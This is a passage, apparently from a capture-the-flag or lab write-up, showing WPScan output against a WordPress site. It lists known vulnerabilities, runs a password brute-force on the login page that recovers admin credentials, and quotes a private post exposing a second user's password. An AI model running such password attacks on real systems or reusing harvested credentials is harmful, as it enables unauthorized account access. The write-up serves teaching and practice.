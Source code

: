 ```shell
 |     References:
 |      - https://wpscan.com/vulnerability/008c21ab-3d7e-4d97-b6c3-db9d83f390a7
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21663
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-jmmq-m8p8-332h
 |      - https://hackerone.com/reports/541469
 |
 | [!] Title: WordPress < 5.9.2 - Prototype Pollution in jQuery
 |     Fixed in: 5.4.10
 |     References:
 |      - https://wpscan.com/vulnerability/1ac912c1-5e29-41ac-8f76-a062de254c09
 |      - https://wordpress.org/news/2022/03/wordpress-5-9-2-security-maintenance-release/

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:06 <======================================> (137 / 137) 100.00% Time: 00:00:06

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / my2boys                                                                                          
Trying admin / calderon Time: 00:03:23 <                                    > (3900 / 14348292)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 0
 | Requests Remaining: 71

[+] Finished: Sat Aug 20 15:02:15 2022
[+] Requests Done: 4042
[+] Cached Requests: 184
[+] Data Sent: 1.434 MB
[+] Data Received: 19.859 MB
[+] Memory used: 253.984 MB
[+] Elapsed time: 00:03:38
```
We got `admin` users credentials and now we can login with that.

**Private Post have some Credentials**
```
To-Do

Don't forget to reset Will's credentials. william:arnold147
```
